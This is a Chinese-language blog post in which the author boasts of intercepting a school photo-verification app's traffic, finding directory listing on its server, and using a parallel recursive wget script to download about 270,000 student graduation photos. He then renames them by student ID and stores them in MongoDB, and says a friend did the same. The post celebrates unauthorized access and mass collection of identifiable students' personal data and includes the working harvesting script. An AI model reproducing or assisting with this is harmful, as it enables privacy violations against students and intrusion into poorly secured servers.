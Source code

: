 ```yaml
---
layout: post
title: Crawl From Little III 
categories: 学习数据挖掘的路上
tags: 学习笔记 抓取数据
---
```


### 这篇文章应该是几个星期前就该记录下来的。但<font color=green>世上哪得双全法，不负如来不负卿</font>。

# 当成故事来看，未尝不可，但是真的好爽啊

事情的起因很简单，就是上周上周上周的上周要进行全校本届毕业生彩像，然后过了大概一周，突然通知说让我们关注一个公众号，输入一串数字+学号+xl去验证是不是自己的照片。然后故事开始了。还有由于是几周之前的事情了，所以就不能在重现截图了。
## First：
手机wifi连接到我的笔记本，笔记本fiddler开代理。这样所有数据流向将十分清楚。所以很方便的找到了目的ip。然后burp suit拿出来，看看什么什么的，随便猜了下目录，竟然成了。服务器有目录遍历的漏洞，于是就直接写个小脚本wget去了，其实这样的话，并不是太完美，

```bash
#!/bin/bash
cat schoolname | while read line
do
	for ((i=0;i<8;i++));
	do
	{
		sleep 2;			
		wget -r -c -np -L http://xxxxip/wwtstudentcard/Web/public/appupload/$line/
	}&
	done	 
done 
```

就这样，扔服务器后台跑了一夜(谁让宿舍断网的，大爷的)，12G数据到手，总共27万张左右的图片（筛选之后乱七八糟的文件之后）。上面一个准确讲没什么技术含量，如果思路加小技巧算的话。

## Second：

拿到数据，有点多，但是有的目录是空的，有的还有html后缀的文件，还有的是学校的校徽，但是校徽的图片命名很规律，xiaohui.png .于是最后花了两天把所有空白文件删除，各种无关文件删除，并重命名图片文件名为学校代码+学号，并把大图和小图分别打包压缩，放到不同的文件夹中。当时发现一个很重要的事，就是一定要判断是不是文件，当时判断的时候默认是进入每个文件夹操作，结果有一个是文件，cd不了，肯定有错误，虽然是循环来处理，这个错误即使出现也不影响后面的操作，但还是值得注意，绝对。毕竟设计的脚本思路是进入文件夹，那么就应该判断是不是文件夹（只怪当时清理文件忘了清理校徽文件）。

```bash
cat hhhh | while read line
do
	cd $line
	ls | while read dirtype
	do
		#cd $dirtype
		#echo "Now I'm in:"  >> ../log
		#echo pwd  	    >> ../log
		cd $dirtype
		
		for fn in *.jpg
		do
			mv $fn $(pwd | grep -E "[0-9]" | awk -F "/" '{print $4}'
)$fn
		done
		cd ..
		#tar -cvzf $line.tar.gz $line
		#cd ..
	done
	
	#echo "Job Done "    >> log
	cd ..
done
```

## Third：

```bash
$ find -type d -empty	#找出所有的空文件夹
$ find $PWD #得到的是绝对路径 $pwd（小写的得到相对路径）
```

当时移除所有数据之后，准备

ls -aR | sed "s:^:`pwd`/:" > listto_mongo
cat listto_mongo | grep -v ".jpg" > temp
cat temp | while read line
do
	sed 's/$line//' listto_mongo

done

# Finally:

![tupian1](../image/crawl/allimg.png)
这是最后清洗完成后的数据，
最开始是这个样子的：
![tupian2](../image/crawl/wenjianjia.png)
后来处理并整理，可以从下面看出来虽然没考虑xiaohui.png这个问题，虽然有错误，但是但是竟然把xiaohui.png也打包了。
![tupian3](../image/crawl/22222.png)

![tupian4](../image/crawl/normalimg.png)
最后这个是准备重命名，并得到所有的绝对路径之后，导入到mongo中去，但是现在我觉得这不是一个好主意，虽然GridFs设计的就是为这种不大不小的文件而生，而且放入数据库便于携带，但是还是不得不说，速度并不快。
![tupian5](../image/crawl/rename.png)
一开始是打算用python+pymongo获取所有的文件并插入进去，但是后来发现mongofiles -d images put xxxx.png就可以实现，这样的话一个几行的shell就能搞定了，直接读取所有保存文件路径名的文本，多个线程插入即可。但是其实这也不好。因为我的照片即使是大的也没有256k,那么就不会把一个照片分块存储，而且每次存取将十分麻烦。虽然mongo可以访问远程mongo服务器，但总的来讲，对我并不是一个好主意。但是出于各种原因还是存了(哭笑不得)。
顺便，和好朋友一起，告诉他这个东西之后，他也在他的服务器上抓了所有的，而且直接保存到sqlite了，虽然我觉的这种东西都不应该放到数据库，但是一切为了备份～_～



# End
最后作为一个小菜鸟，路还很长，这是我习惯说的一句话，虽然有点啰嗦。还有一些小脚本，去服务器看时，发现已经没了，所以贴不来了。














